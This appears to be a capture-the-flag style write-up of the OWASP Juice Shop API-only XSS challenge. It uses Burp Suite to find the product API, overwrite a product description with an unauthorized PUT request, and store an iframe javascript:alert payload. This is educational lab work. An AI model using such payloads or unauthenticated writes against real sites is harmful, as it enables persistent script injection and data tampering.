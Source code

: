 # API-only XSS Challenge Report

> [!CAUTION]  
> **Only for Testing Purposes.**  
> Documentation in this repository is entirely written for educational purposes.

**Project**: OWASP Juice Shop - API-only XSS Challenge (XSS) <br>
**Tools**: Kali Linux with Burp Suite <br>
**Author**: Pascal Nehlsen <br>
**Portfolio**: [https://www.pascal-nehlsen.de/](https://www.pascal-nehlsen.de/) <br>
**Loom Link**: [https://www.loom.com/share/6a49a637123d47e486340327dfdf88d7](https://www.loom.com/share/6a49a637123d47e486340327dfdf88d7) <br>
**GitHub Link**: [https://github.com/PascalNehlsen/juice-shop-challenges/challenges/api-only-xss.md](https://github.com/PascalNehlsen/juice-shop-challenges/challenges/api-only-xss.md)

## Table of Contents

1. [Introduction](#Introduction)
2. [Objective](#Objective)
3. [Approach](#Approach)
   - [Step 1: Information Gathering](#step-1-information-gathering)
   - [Step 2: Analyzing API Endpoints](#step-2-analyzing-api-endpoints)
   - [Step 3: Injecting XSS Payload](#step-3-injecting-xss-payload)
4. [Conclusion](#Conclusion)

### Introduction

The OWASP Juice Shop is a deliberately vulnerable web application designed to demonstrate security issues, including Cross-Site Scripting (XSS). This report details the steps I followed to complete the API-only XSS challenge.

### Objective

The objective of this challenge was to exploit an XSS vulnerability through the API endpoints of the Juice Shop application. The approach involved embedding malicious scripts into a product's description to see if these would execute in the browser. Successfully completing the challenge required persisting an XSS payload within the application.

### Approach

#### Step 1: Information Gathering

To identify where persistent data is stored within the shop, I examined product descriptions as a likely target. Using Burp Suite's "Intercept" feature, I intercepted the HTTP requests within the application to analyze the API calls involved.

<div align="center">

![Information Gathering](/images/api-only-xss/information.png)

</div>

Upon reviewing the HTTP history, I found a `GET` request to `/api/Quantitys/`. I then sent this request to Burp Suite's Repeater tool for modification. By changing the API endpoint to `/api/Products/`, I accessed a complete JSON response containing all product details.

Sample Product in JSON Format:

```json
{
  "id": 1,
  "name": "Apple Juice (1000ml)",
  "description": "The all-time classic.",
  "price": 1.99,
  "deluxePrice": 0.99,
  "image": "apple_juice.jpg",
  "createdAt": "2024-10-24T10:01:58.486Z",
  "updatedAt": "2024-10-24T10:01:58.486Z",
  "deletedAt": null
}
```

#### Step 2: Analyzing API Endpoints

After identifying the product data, I further explored the Juice Shop API endpoints. By sending an `OPTIONS` request to `/api/Products/`, I confirmed that the API supports standard HTTP methods (GET, POST, PUT, PATCH).

```bash
OPTIONS /api/Products/ HTTP/1.1
```

Since attempts to update product data with the `PATCH` method were unsuccessful (resulting in a 500 status code), I opted to use the `PUT` method, which replaces data in its entirety. Additionally, I set the `Content-Type` to `application/json`, as the GET response data format was JSON. With IDs listed in the JSON data, I accessed the first product directly via `/api/products/1`.

I first tested updating the product description without any XSS payload:

**PUT Request to Update Product Description**

```bash
PUT /api/products/1 HTTP/1.1
Host: 127.0.0.1:3000
Content-Type: application/json
Connection: keep-alive

{
"description": "OWASP is King"
}
```

The server responded with a 200 status code, confirming the update:

```json
{
  "status": "success",
  "data": {
    "id": 1,
    "name": "Apple Juice (1000ml)",
    "description": "OWASP is King",
    "price": 1.99,
    "deluxePrice": 0.99,
    "image": "apple_juice.jpg",
    "createdAt": "2024-10-24T10:01:58.486Z",
    "updatedAt": "2024-10-24T11:06:53.363Z",
    "deletedAt": null
  }
}
```

On checking the OWASP Juice Shop UI, the product description was successfully updated.

<div align="center">

![New Product](/images/api-only-xss/new-product.png)

</div>

#### Step 3: Injecting XSS Payload

To complete the challenge, I attempted to add an iframe to the description with a JavaScript payload:

```json
{
  "description": "<iframe src=\"javascript:alert(`xss`)\">"
}
```

When testing without escaped double quotes, the server returned a 500 error due to syntax issues. Adding backslashes before the double quotes (`\"`) allowed the payload to be processed, resulting in a 200 status code.

Upon refreshing the OWASP Juice Shop page, I observed the modified product description. The XSS payload executed as intended when viewing the product, confirming the successful exploitation of the XSS vulnerability.

<div align="center">

![Information Gathering](/images/api-only-xss/result.png)

</div>

### Conclusion

This test successfully completed the API-only XSS Challenge by embedding a persistent XSS payload in the description of the Apple Juice product through a direct API request, bypassing the web frontend.

<div align="center">

![Challenge Accepted](/images/api-only-xss/challenge-accept.png)

</div>
